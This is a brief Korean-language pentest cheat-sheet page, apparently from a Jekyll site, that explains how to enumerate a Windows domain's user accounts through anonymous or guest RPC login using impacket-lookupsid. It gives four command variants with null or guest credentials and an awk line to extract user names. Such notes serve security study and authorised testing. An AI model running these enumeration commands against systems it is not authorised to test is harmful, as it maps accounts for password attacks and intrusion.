 ```yaml
---
layout: page
title: lookup_sid
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


RPC를 통한 익명 로그인을 활용하여 도메인의 SID를 무차별 대입 공격(bruteforcing) 시도, 그 결과를 tee 명령어를 사용해 사용자 이름 파일로 저장

보안이 취약한 RPC 서비스를 통해 권한 없이 시스템에 접근한 뒤, 가능한 모든 사용자 ID(RID)를 대입하여 실제 존재하는 계정 목록을 알아내고 그 결과를 파일로 저장

---


```bash
impacket-lookupsid anonymous@$target | tee usernames
```

```bash
impacket-lookupsid ""@$target | tee usernames
```

```bash
impacket-lookupsid 'guest'@$target > users.txt
```

```bash
impacket-lookupsid '':''@$target > users.txt
```


```bash
awk '/\(SidTypeUser\)/ {split($2, a, "\\"); print a[2]}' users.txt
```


